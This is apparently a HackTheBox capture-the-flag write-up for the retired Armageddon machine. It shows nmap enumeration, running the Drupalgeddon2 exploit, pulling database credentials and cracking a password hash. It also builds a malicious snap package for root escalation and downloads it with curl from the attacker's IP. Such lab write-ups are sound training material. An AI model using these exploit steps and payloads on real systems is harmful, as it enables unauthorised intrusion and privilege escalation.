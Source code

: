 # Armageddon

This is the write-up for the box Armageddon that got retired at the 24th July 2021.
My IP address was 10.10.14.8 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.233   armageddon.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/armageddon.nmap 10.10.10.233
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to  Armageddon |  Armageddon
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
```

## Checking HTTP (Port 80)

The website shows a login form which requires a username and password.
As the initial scan found, a _robots.txt_ file can be accessed, which shows many directories and files.

The file _CHANGELOG.txt_ shows that the web service is running **Drupal 7.56** from June 2017.

Searching for public vulnerabilities:
```
searchsploit drupal 7
```

There are some Remote Code Execution vulnerabilities that are called **Drupalgeddon2** and I will use the Ruby script:
```
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution
```

Running the script:
```
ruby 44449.rb http://10.10.10.233/
```

After running the script, it starts a shell session as the user _apache_.

## Privilege Escalation

The file _sites/default/settings.php_ in the web directory contains credentials for a **MySQL** database:
```
(...)
'database' => 'drupal',
'username' => 'drupaluser',
'password' => 'CQHEy@9M*m23gBVj',
'host' => 'localhost',
'port' => '',
'driver' => 'mysql',
(...)
```

The shell from the exploit is not a real TTY shell, so instead of login into the database, commands need to be specified on the command line:
```
mysql -u drupaluser --password=CQHEy@9M*m23gBVj -D drupal -e 'show tables'

mysql -u drupaluser --password=CQHEy@9M*m23gBVj -D drupal -e 'describe users'

mysql -u drupaluser --password=CQHEy@9M*m23gBVj -D drupal -e 'select name, pass from users'
```
```
brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```

The table _users_ has a hash for the user _brucetherealadmin_ which also exists on the box.

Trying to crack the hash with **John The Ripper**:
```
john drupal.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

The password gets cracked and it is:
> booboo

The password works on the user with SSH:
```
ssh brucetherealadmin@10.10.10.233
```

### Privilege Escalation to root

When checking the permissions of _brucetherealadmin_ with `sudo -l`, the user has privileges to install packages with `snap` as root:
```
User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

The binary _snap_ has an [entry in GTFObins](https://gtfobins.github.io/gtfobins/snap/) which makes it possible to escalate privileges to root.

Installing [fpm](https://github.com/jordansissel/fpm):
```
gem install --no-document fpm
```

Creating a malicious binary:
```
COMMAND="chown root:root /home/brucetherealadmin/bash; chmod 4755 /home/brucetherealadmin/bash"
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

Copying `bash` in the home folder of _brucetherealadmin_:
```
cp /usr/bin/bash /home/brucetherealadmin/
```

Uploading package _xxxx_1.0_all.snap_ onto the box:
```
curl 10.10.14.8/xxxx_1.0_all.snap -o privesc.snap
```

Installing package with sudo permissions:
```
sudo snap install privesc.snap --dangerous --devmode
```

After the package is installed, it will execute the specified command and `bash` can be executed:
```
./bash -p
```

The _euid_ is root and thus the privileges got escalated!
